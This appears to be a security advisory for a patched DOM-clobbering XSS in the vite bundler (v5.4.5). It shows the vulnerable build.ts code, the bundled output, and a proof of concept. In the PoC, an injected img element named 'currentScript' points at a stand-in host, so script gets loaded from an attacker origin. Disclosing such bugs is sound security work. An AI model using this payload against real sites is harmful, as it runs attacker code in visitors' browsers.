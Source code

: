 ## vite

### Meta

+ Library: vite
+ Version: v5.4.5
+ Stars: 67.2K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: CVE-2024-XXXXX
+ Status: Patched
+ Foundby: TheHulk

### Library

https://github.com/vitejs/vite

### Vulnerable Code Snippet

```js
// https://github.com/vitejs/vite/blob/main/packages/vite/src/node/build.ts#L1309
const relativeUrlMechanisms = {
  amd: (relativePath) => {
    if (relativePath[0] !== ".") relativePath = "./" + relativePath;
    return getResolveUrl(
      `require.toUrl('${escapeId(relativePath)}'), document.baseURI`
    );
  },
  cjs: (relativePath) => `(typeof document === 'undefined' ? ${getFileUrlFromRelativePath(
    relativePath
  )} : ${getRelativeUrlFromDocument(relativePath)})`,
  es: (relativePath) => getResolveUrl(
    `'${escapeId(partialEncodeURIPath(relativePath))}', import.meta.url`
  ),
  iife: (relativePath) => getRelativeUrlFromDocument(relativePath),
  // NOTE: make sure rollup generate `module` params
  system: (relativePath) => getResolveUrl(
    `'${escapeId(partialEncodeURIPath(relativePath))}', module.meta.url`
  ),
  umd: (relativePath) => `(typeof document === 'undefined' && typeof location === 'undefined' ? ${getFileUrlFromRelativePath(
    relativePath
  )} : ${getRelativeUrlFromDocument(relativePath, true)})`
};
```

```sh
npm install -D vite
node ./node_modules/vite/bin/vite.js build
```

Output:
```js
"use strict";const t=""+(typeof document>"u"?require("url").pathToFileURL(__dirname+"/extra-Cjq7Wz0N.js").href:new URL("extra-Cjq7Wz0N.js",document.currentScript&&document.currentScript.src||document.baseURI).href);var e=document.createElement("script");e.src=t;document.head.append(e);
```

## PoC

as an example, bundle the js below: `node ./node_modules/vite/bin/vite.js build`.

```js
import extraURL from './extra.js?url'
var s = document.createElement('script')
s.src = extraURL
document.head.append(s)
```

example html:


```html
<!--Library-->
<script type="module" crossorigin src="index-DDmIg9VD.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999">
<!--Payload-->
```

